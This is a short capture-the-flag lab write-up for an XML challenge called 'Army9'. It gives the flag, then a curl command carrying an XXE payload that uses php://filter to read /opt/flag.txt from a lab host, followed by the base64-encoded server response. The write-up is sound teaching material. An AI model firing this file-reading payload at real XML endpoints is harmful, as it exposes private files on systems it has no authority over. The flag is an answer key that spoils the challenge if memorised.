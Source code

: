 # Army9

>
> ### user: PWNX{baa53c20dfaec391c3934fc26f37ca18}
> 

## Description

An application which accepts XML Post Requests

## Technical description

The application doesn't parses any external entity that isn't a php://filter.

## Writeup

The challenge presents only the port `80/tcp` open. Since the application accepts XML POST requests an attacker can try to use external entities to trigger the application to make request or read file inside the system. The only external entities being parsed by the application are those who uses the php://filter, so in order to exploit the lab and obtain the flag the attacker can use the following exploit

```bash
curl 10.90.140.93 -H 'Content-Type: application/xml' -d '<?xml version="1.0" encoding="utf-8" ?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/opt/flag.txt">]><foo>&xxe;</foo>

```

The application response at this point will be the following


```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/opt/flag.txt">
]>
<foo>UFdOWHtiYWE1M2MyMGRmYWVjMzkxYzM5MzRmYzI2ZjM3Y2ExOH0K</foo>
```
